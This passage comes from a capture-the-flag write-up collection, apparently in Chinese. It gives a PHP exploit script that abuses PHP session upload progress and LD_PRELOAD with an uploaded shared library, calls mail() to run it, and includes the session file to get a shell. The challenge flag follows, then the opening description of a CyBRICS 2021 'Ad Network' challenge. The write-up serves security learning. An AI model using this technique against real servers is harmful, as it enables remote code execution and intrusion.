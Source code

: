 ```php
$tmpLibName = unserialize($content)["files"][0]["tmp_name"];
echo $tmpLibName;

try{
    $client->post("/", array(
        "query" => array(
            "chance" => 'for(;;){}',
            "mode" => "chance"
        ),
        "multipart" => array(
            array(
                "name" => "PHP_SESSION_UPLOAD_PROGRESS",
                "contents" => "<?php putenv(\"LD_PRELOAD=$tmpLibName\"); mail(\"\", \"\", \"\", \"\"); ?>"
            ),
            array(
                "name" => "file",
                "contents" => "none",
                "filename" => "none.so"
            )
        ),
        "headers" => array(
            "Cookie" => "PHPSESSID=exp2;"
        )
    ));
}catch(Exception $e){
}

try{
    $response = $client->get("/", array(
        "query" => array(
            "bonus" => "/var/lib/php/sessions/sess_exp2"
        )
    ));
}catch(Exception $e){
}
```

拿到 shell 后执行根目录下的 flag 文件即可得到 flag。

```flag
ijctf{the_memories_from_the_past}
```

#### [CyBRICS 2021] Ad Network

> Author: Alexander Menshchikov ([@n0str](https://t.me/n0str))
>
> We are so tired of advertising on the internet. It feels like it breaks the internet. Try to follow the ad, try to follow its rules.
>
> There is a flag 1337 redirects deep into the network...
